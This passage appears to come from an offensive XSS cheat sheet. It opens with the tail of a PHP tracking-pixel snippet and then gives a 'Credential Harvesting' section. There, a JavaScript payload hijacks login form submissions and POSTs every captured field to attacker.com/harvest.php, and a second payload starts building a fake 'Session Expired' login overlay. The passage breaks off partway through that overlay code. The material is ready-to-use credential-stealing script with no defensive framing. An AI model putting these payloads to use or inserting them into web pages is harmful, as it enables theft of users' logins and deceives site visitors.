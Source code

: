 ```php
    header('Content-Type: image/gif');
    echo base64_decode('R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7');
}
?>
```

### 2. 🎣 Credential Harvesting

#### Login Form Hijacking
```javascript
// Hijack login form submission
<script>
// Wait for form submission
document.addEventListener('DOMContentLoaded', function() {
    var loginForm = document.querySelector('form[action*="login"]') || 
                   document.querySelector('form input[type="password"]').closest('form');
    
    if (loginForm) {
        loginForm.addEventListener('submit', function(e) {
            // Capture credentials
            var formData = new FormData(loginForm);
            var credentials = {};
            
            for (var pair of formData.entries()) {
                credentials[pair[0]] = pair[1];
            }
            
            // Send to attacker server
            fetch('http://attacker.com/harvest.php', {
                method: 'POST',
                headers: {'Content-Type': 'application/json'},
                body: JSON.stringify(credentials)
            });
        });
    }
});
</script>
```

#### Fake Login Overlay
```javascript
// Create fake login overlay
<script>
function createFakeLogin() {
    // Create overlay
    var overlay = document.createElement('div');
    overlay.style.cssText = `
        position: fixed;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        background: rgba(0,0,0,0.8);
        z-index: 9999;
        display: flex;
        justify-content: center;
        align-items: center;
    `;
    
    // Create fake login form
    overlay.innerHTML = `
        <div style="background: white; padding: 20px; border-radius: 5px; width: 300px;">
            <h3>Session Expired - Please Login Again</h3>
```